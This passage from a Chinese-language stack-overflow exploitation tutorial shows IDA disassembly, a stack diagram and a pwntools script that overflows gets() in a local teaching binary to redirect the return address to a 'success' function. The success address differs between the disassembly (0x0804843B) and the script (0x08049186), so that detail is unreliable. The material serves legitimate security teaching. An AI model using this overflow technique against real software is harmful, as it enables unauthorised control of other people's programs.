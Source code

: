 并且，我们可以通过 IDA 获得 success 的地址，其地址为 0x0804843B。

```asm
.text:0804843B success         proc near
.text:0804843B                 push    ebp
.text:0804843C                 mov     ebp, esp
.text:0804843E                 sub     esp, 8
.text:08048441                 sub     esp, 0Ch
.text:08048444                 push    offset s        ; "You Hava already controlled it."
.text:08048449                 call    _puts
.text:0804844E                 add     esp, 10h
.text:08048451                 nop
.text:08048452                 leave
.text:08048453                 retn
.text:08048453 success         endp
```

那么如果我们读取的字符串为

```
0x14*'a'+'bbbb'+success_addr
```

那么，由于 gets 会读到回车才算结束，所以我们可以直接读取所有的字符串，并且将 saved ebp 覆盖为 bbbb，将 retaddr 覆盖为 success_addr，即，此时的栈结构为

```text
                                           +-----------------+
                                           |    0x0804843B   |
                                           +-----------------+
                                           |       bbbb      |
                                    ebp--->+-----------------+
                                           |                 |
                                           |                 |
                                           |                 |
                                           |                 |
                                           |                 |
                                           |                 |
                              s,ebp-0x14-->+-----------------+
```

但是需要注意的是，由于在计算机内存中，每个值都是按照字节存储的。一般情况下都是采用小端存储，即0x0804843B 在内存中的形式是

```text
\x3b\x84\x04\x08
```

但是，我们又不能直接在终端将这些字符给输入进去，在终端输入的时候\，x等也算一个单独的字符。。所以我们需要想办法将 \x3b 作为一个字符输入进去。那么此时我们就需要使用一波 pwntools 了(关于如何安装以及基本用法，请自行 github)，这里利用 pwntools 的代码如下：

```python
##coding=utf8
from pwn import *
## 构造与程序交互的对象
sh = process('./stack_example')
success_addr = 0x08049186
## 构造payload
payload = b'a' * 0x14 + b'bbbb' + p32(success_addr)
print(p32(success_addr))
## 向程序发送字符串
sh.sendline(payload)
## 将代码交互转换为手工交互
sh.interactive()
```
